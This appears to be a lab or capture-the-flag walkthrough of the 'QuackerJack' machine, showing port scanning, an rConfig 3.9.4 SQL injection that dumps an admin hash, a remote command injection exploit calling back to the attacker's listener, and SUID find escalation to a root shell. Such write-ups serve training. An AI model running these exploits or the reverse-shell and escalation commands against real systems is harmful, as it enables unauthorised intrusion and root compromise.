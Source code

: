 # QuackerJack

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 192.168.233.57 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-30 16:48 +08
Nmap scan report for 192.168.233.57
Host is up (0.17s latency).
Not shown: 65527 filtered tcp ports (no-response)
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
80/tcp   open  http
111/tcp  open  rpcbind
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3306/tcp open  mysql
8081/tcp open  blackice-icecap
```

### FTP Anonymous Fail

The FTP service does allow anonymous logins, but it just hangs:

```
$ ftp 192.168.233.57
Connected to 192.168.233.57.
220 (vsFTPd 3.0.2)
Name (192.168.233.57:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||32438|).
```

Nothing much there.

### SQL Injection --> RCE

Port 8081 was hosting an `rConfig` instance:

<figure><img src="../../../.gitbook/assets/image (143).png" alt=""><figcaption></figcaption></figure>

This version was vulnerable to a few exploits:

```
$ searchsploit rConfig 3.9.4
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
rConfig 3.9.4 - 'search.crud.php' Remote Command Injection | php/webapps/48241.py
rConfig 3.9.4 - 'searchField' Unauthenticated Root Remote  | php/webapps/48261.py
----------------------------------------------------------- ---------------------------------
```

The bottom one just didn't work, while the top one requires credentials to work. There a few other exploits that I found online, such as an SQL Injection here:

{% embed url="https://www.exploit-db.com/exploits/48208" %}

The above exploit was tested on Version 3.9.4, so it should work.

```
$ python3 sql.py https://192.168.233.57:8081
rconfig 3.9 - SQL Injection PoC
[+] Triggering the payloads on https://192.168.233.57:8081/commands.inc.php
[+] Extracting the current DB name :
rconfig
[+] Extracting 10 first users :
admin:1:dc40b85276a1f4d7cb35f154236aa1b2
```

The above hash is crackable on CrackStation.

<figure><img src="../../../.gitbook/assets/image (64).png" alt=""><figcaption></figcaption></figure>

We can then run the RCE exploit `48241.py`:

```
$ python3 48241.py https://192.168.233.57:8081 admin abgrtyu 192.168.45.161 21
```

<figure><img src="../../../.gitbook/assets/image (57).png" alt=""><figcaption></figcaption></figure>

We can then grab the user flag.

## Privilege Escalation

### Find SUID --> Root Shell

We can enumerate for SUID binaries on this machine:

```
bash-4.2$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/find
/usr/bin/chage
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/su
/usr/bin/sudo
/usr/bin/mount
/usr/bin/umount
/usr/bin/crontab
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/fusermount
/usr/sbin/unix_chkpwd
/usr/sbin/pam_timestamp_check
/usr/sbin/usernetctl
/usr/lib/polkit-1/polkit-agent-helper-1
/usr/libexec/dbus-1/dbus-daemon-launch-helper
```

We can run `find` as the `root` user. Following GTFOBins, we just need to run this:

```
./find . -exec /bin/sh -p \; -quit
```

<figure><img src="../../../.gitbook/assets/image (63).png" alt=""><figcaption></figcaption></figure>

Rooted!
